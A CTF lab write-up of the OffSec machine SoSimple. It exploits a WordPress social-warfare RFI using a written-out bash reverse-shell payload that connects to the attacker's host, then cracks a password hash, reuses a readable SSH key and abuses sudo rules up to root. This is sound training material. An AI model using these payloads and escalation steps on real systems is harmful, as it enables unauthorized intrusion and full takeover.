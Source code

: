 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: SoSimple
- Description: Keep it Simple
- Difficulty: Intermediate

## Initial Access

Nmap:
```bash
# Nmap 7.94SVN scan initiated Sat Feb 17 16:10:11 2024 as: nmap -sC -sV -v -p- -o nmap --min-rate 1000 192.168.204.78
Nmap scan report for 192.168.204.78
Host is up (0.051s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5b:55:43:ef:af:d0:3d:0e:63:20:7a:f4:ac:41:6a:45 (RSA)
|   256 53:f5:23:1b:e9:aa:8f:41:e2:18:c6:05:50:07:d8:d4 (ECDSA)
|_  256 55:b7:7b:7e:0b:f5:4d:1b:df:c3:5d:a1:d7:68:a9:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: So Simple
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Website and ssh, let's start by scanning the directories:
```bash
dirsearch -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -e php,txt,html -f -u htt
p://192.168.204.78
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, txt, html | HTTP method: GET | Threads: 64 | Wordlist size: 1102725

Output File: /home/kali/offsec/reports/http_192.168.204.78/_24-02-17_16-20-01.txt

Target: http://192.168.204.78/

[16:20:01] Starting: 
[16:20:03] 403 -  279B  - /icons/                                           
[16:20:09] 301 -  320B  - /wordpress  ->  http://192.168.204.78/wordpress/  
[16:20:09] 200 -    4KB - /wordpress/
```

From there I can run a quick wpscan and find the social-warfare plugin is outdated:

![](assets/images/2024-02-17-offsec-sosimple-writeup-image-1.png)

This is vulnerable to an RFI in this URL:

```
192.168.204.78/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=[RFI_HERE]
```

To pull this off I need to create a payload.txt file with some php code that will send me back a revshell:

```bash
offsec cat payload.txt 
<pre>shell_exec("bash -c 'bash -i >& /dev/tcp/192.168.45.246/443 0>&1'");</pre>
```

Now I can make a request like this:

```bash
curl 192.168.204.78/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.45.246/payload.txt
```

This gets us a rev shell:

```bash
www-data@so-simple:/var/www/html/wordpress$ whoami
www-data
```

## Privilege Escalation

I start by logging in to the wordpress database, the credentials are found in wp-config.php this allows me to look for the user max/admin's credentials. I can also attempt to crack them:

![](assets/images/2024-02-17-offsec-sosimple-writeup-image-2.png)

```bash
john -w=/usr/share/wordlists/rockyou.txt hash   
Created directory: /home/kali/.john                                                                                 
Using default input encoding: UTF-8                       
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])                                               
Cost 1 (iteration count) is 8192 for all loaded hashes                                                              
Will run 8 OpenMP threads                                 
Press 'q' or Ctrl-C to abort, almost any other key for status              
opensesame       (?)                                                                                                
1g 0:00:00:00 DONE (2024-02-17 16:19) 11.11g/s 68266p/s 68266c/s 68266C/s myboo..iheartyou                  
Use the "--show --format=phpass" options to display all of the cracked passwords reliably                           
Session completed.
```

This cracks max's hash successfully! I also notice he's a user on the machine so I attempt to su into him:

```bash
www-data@so-simple:/home/max$ su max
Password: 
su: Authentication failure
www-data@so-simple:/home/max$
```

This fails, so I take a look at their home directory and find two files, the personal.txt file and a directory called "this":

Taking a look at the directory:
```bash
www-data@so-simple:/home/max$ find this
this
this/is
this/is/maybe
this/is/maybe/the
this/is/maybe/the/way
this/is/maybe/the/way/to
this/is/maybe/the/way/to/a
this/is/maybe/the/way/to/a/private_key
this/is/maybe/the/way/to/a/private_key/id_rsa
this/is/maybe/the/way/to/a/rabbit_hole
this/is/maybe/the/way/to/a/rabbit_hole/rabbit-hole.txt
this/is/maybe/the/way/to/a/password
this/is/maybe/the/way/to/a/password/password.txt
```

```bash
www-data@so-simple:/home/max$ cat personal.txt | base64 -d
Hahahahaha, it's not that easy !!! 
```

bit ctfy, but i'll bite... checking permissions:

```bash
www-data@so-simple:/home/max$ ls -la
total 52
drwxr-xr-x 7 max  max  4096 Aug 22  2020 .
drwxr-xr-x 4 root root 4096 Jul 12  2020 ..
lrwxrwxrwx 1 max  max     9 Aug 22  2020 .bash_history -> /dev/null
-rw-r--r-- 1 max  max   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 max  max  3810 Jul 12  2020 .bashrc
drwx------ 2 max  max  4096 Jul 12  2020 .cache
drwx------ 3 max  max  4096 Jul 12  2020 .gnupg
drwxrwxr-x 3 max  max  4096 Jul 12  2020 .local
-rw-r--r-- 1 max  max   807 Feb 25  2020 .profile
drwxr-xr-x 2 max  max  4096 Jul 14  2020 .ssh
-rw-r--r-- 1 max  max    33 Feb 17 21:09 local.txt
-rw-r--r-- 1 max  max    49 Jul 12  2020 personal.txt
drwxrwxr-x 3 max  max  4096 Jul 12  2020 this
-rwxr-x--- 1 max  max    43 Aug 22  2020 user.txt
```

I see that I can actually access the .ssh directory (x) on world:

```bash
www-data@so-simple:/home/max/.ssh$ ls -la
total 20
drwxr-xr-x 2 max  max  4096 Jul 14  2020 .
drwxr-xr-x 7 max  max  4096 Aug 22  2020 ..
-rw-r--r-- 1 max  max   568 Jul 14  2020 authorized_keys
-rwxr-xr-x 1 root root 2602 Jul 14  2020 id_rsa
-rw-r--r-- 1 root root  568 Jul 14  2020 id_rsa.pub
```

I also can read the ssh key! the weird part is that it's owned by root so i'll take it and attempt to login to root first, then i'll attempt to login to max if that doesn't work

```bash
www-data@so-simple:/home/max/.ssh$ ssh -i id_rsa root@localhost
Could not create directory '/var/www/.ssh'.
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:qo4/EbrJueKB3ta+XB6PT2uNDjKfSgixhQqawjkTPas.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
root@localhost's password: 

www-data@so-simple:/home/max/.ssh$ ssh -i id_rsa max@localhost
Could not create directory '/var/www/.ssh'.
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:qo4/EbrJueKB3ta+XB6PT2uNDjKfSgixhQqawjkTPas.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Feb 17 21:31:06 UTC 2024

  System load:  0.01              Processes:                171
  Usage of /:   53.6% of 8.79GB   Users logged in:          0
  Memory usage: 31%               IPv4 address for docker0: 172.17.0.1
  Swap usage:   0%                IPv4 address for ens160:  192.168.204.78


47 updates can be installed immediately.
0 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

max@so-simple:~$
```

SSHing as root did not work, but I successfully SSH'd as max!

```bash
max@so-simple:~$ sudo -l
Matching Defaults entries for max on so-simple:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User max may run the following commands on so-simple:
    (steven) NOPASSWD: /usr/sbin/service
```

checking sudo privileges I can run "service" as steven so let's do that:

```bash
max@so-simple:~$ sudo -u steven  service ../../bin/sh
$ whoami
steven
```

Now that I am steven 
```bash
steven@so-simple:/home/steven$ sudo -l
Matching Defaults entries for steven on so-simple:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User steven may run the following commands on so-simple:
    (root) NOPASSWD: /opt/tools/server-health.sh
```

I go to the directory and notice it doesn't exist, so I attempt to create it and it works (weird cause we shouldn't have write access to /opt)

```bash
steven@so-simple:/home/steven$ cd /opt
steven@so-simple:/opt$ ls
steven@so-simple:/opt$ ls -la
total 8
drwxr-xr-x  2 steven steven 4096 Sep  3  2020 .
drwxr-xr-x 20 root   root   4096 Aug 14  2020 ..
steven@so-simple:/opt$ mkdir tools
steven@so-simple:/opt$ ls
tools
steven@so-simple:/opt$ cd tools/
steven@so-simple:/opt/tools$ ls
steven@so-simple:/opt/tools$ touch server-health.sh
steven@so-simple:/opt/tools$ echo "bash" > server-health.sh
steven@so-simple:/opt/tools$ sudo /opt/tools/server-health.sh 
root@so-simple:/opt/tools#
```

We are root!

best,
gerbsec